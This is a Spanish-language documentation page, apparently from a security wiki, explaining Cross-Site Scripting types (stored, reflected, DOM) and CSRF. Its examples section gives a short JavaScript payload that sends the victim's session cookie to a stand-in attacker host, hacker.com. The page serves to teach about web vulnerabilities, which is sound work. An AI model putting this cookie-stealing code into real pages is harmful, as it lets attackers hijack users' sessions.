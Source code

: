 ```yaml
---
title : "Cross-Site Scripting"
description: "TODO"
lead: ""
date: 2020-10-06T08:48:45+00:00
lastmod: 2020-10-06T08:48:45+00:00
draft: false
images: []
menu:
  docs:
    parent: "apps-web"
weight: 030
---
```


## Descripción General

El Cross-Site Scripting, o XSS (punto 7 en el OWASP Top 10), se refiere a una clase de vulnerabilidades que
intentan introducir código JavaScript en un sitio web, el cual será ejecutado en el navegador de otros usuarios.
Dependiendo de la aplicación en específico, las repercusiones de esto varían desde meras molestias hasta
la completa ruptura de confidencialidad e integridad del sistema.

Existen 3 tipos:
* **Almacenado**: El payload queda almacenado en algún lado y no es necesario estar activamente atacando a la víctima.
  Una vez que ella acceda a este, se ejecutará el código malicioso.

* **Reflejado**: El payload no se almacena permanentemente, sino que viene codificado en alguna variable
  (como un parámetro GET).

* **DOM**: Este tipo de XSS no puede ser ejecutado por medio de variables ni datos almacenados, sino que se debe
realizar una serie de acciones específicas en el mismo navegador de la víctima.

## Ejemplos

Uno de los usos más peligrosos de este tipo de ataques es el robo de sesiones. El código introducido toma la
cookie de sesión de la víctima y se la envía al atacante. Luego él puede simplemente copiar esta cookie en
su navegador, con lo cual obtiene acceso autenticado como la víctima. El código a continuación logra hacer esto:

    var xhr = new XMLHttpRequest();
    xhr.open("POST", "https://hacker.com/", true);
    xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    xhr.send("cookie=" + document.cookie);

Otro uso es el Cross-Site Request Forgery (CSRF). Estos ataques intentan impersonar a la víctima, enviando
consultas en su nombre. Esto funciona ya que las consultas hechas a través de JavaScript también llevan las cookies
y parámetros de sesión del usuario, por lo que el atacante tiene el potencial de ganar los mismos permisos que
la víctima. Esto se podría utilizar, por ejemplo, para realizar acciones en nombre del administrador, con lo cual
crear otro usuario con permisos de administrador.

